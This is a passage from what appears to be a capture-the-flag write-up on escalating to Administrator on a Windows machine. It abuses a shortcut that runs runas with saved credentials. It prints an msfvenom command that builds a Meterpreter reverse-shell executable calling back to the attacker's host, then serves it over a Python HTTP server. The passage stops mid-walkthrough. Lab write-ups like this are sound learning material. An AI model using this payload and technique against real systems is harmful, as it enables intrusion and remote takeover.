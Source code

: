 ```

![image](https://user-images.githubusercontent.com/41026969/71539070-c5997d00-2904-11ea-9cf1-20ab9a0664e7.png)

Doing some google searches and eventually opening up [this article](https://whatis.techtarget.com/fileformat/LNK-Shortcut-file-Microsoft-Windows-9-x) I learn that a ```.lnk``` file is a shortcut file used by windows to point to an executable file. Doing ```type "ZKAccess3.5 Security System.lnk"``` to show any strings that might be useful outputs the following:

```
C:\Users\Public\Desktop>type "ZKAccess3.5 Security System.lnk"
L�F�@ ��7���7���#�P/P�O� �:i�+00�/C:\R1M�:Windows��:��M�:*wWindowsV1MV�System32��:��MV�*�System32X2P�:�
                                                                                                        runas.exe��:1��:1�*Yrunas.exeL-K��E�C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico�%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico�%�
                                              �wN���]N�D.��Q���`�Xaccess�_���8{E�3
                                                                                  O�j)�H���
                                                                                           )ΰ[�_���8{E�3
                                                                                                        O�j)�H���
                                                                                                                 )ΰ[�	��1SPS�XF�L8C���&�m�e*S-1-5-21-953262931-566350628-63446256-500
```

There are a few things interesting about the strings it outputted:

1. ```runas.exe``` is being executed which is in the ```System32``` file
2. ```\savecred```
3. and something called ```Access.exe``` is being executed

### Exploitation/Privilege Escalation - Getting Administrator Access

Doing some research, I found out more about ```\savecred``` [here](https://www.howtogeek.com/124087/how-to-create-a-shortcut-that-lets-a-standard-user-run-an-application-as-administrator/). This is what it says:

![image](https://user-images.githubusercontent.com/41026969/71539269-a2240180-2907-11ea-8c46-c1da0ff6eb02.png)

Basically ```runas /savecred```, is similar to using the ```sudo``` command to execute any commands that needed escalated priviledges. E

Remembering what I've done in previous challenges and doing some research about msfvenom, I learn that we can create a custom executable that will basically get us a reverse shell using metasploit and msfvenom. First, I do some research and end up on [this website](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/) and use the ```Windows Meterpreter Reverse TCP Shell```. 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

Explanation of command above: ```msfvenom``` is the program name, ```-p``` is the payload, ```LHOST``` is the local host (our host machine, without the <>). ```LPORT``` is the port we'll be listening on (again without the <>, I chose 4444 for this challenge), ```-f``` is the format, in this case, ```.exe```. And the ```>``` means we'll be saving it as ```shell.exe```.

This will output the resulting executable in ```shell.exe```.

First, on the directory ```shell.exe``` is in, I do ```python -m SimpleHTTPServer```. This will create an HTTP server hosting the files. 

```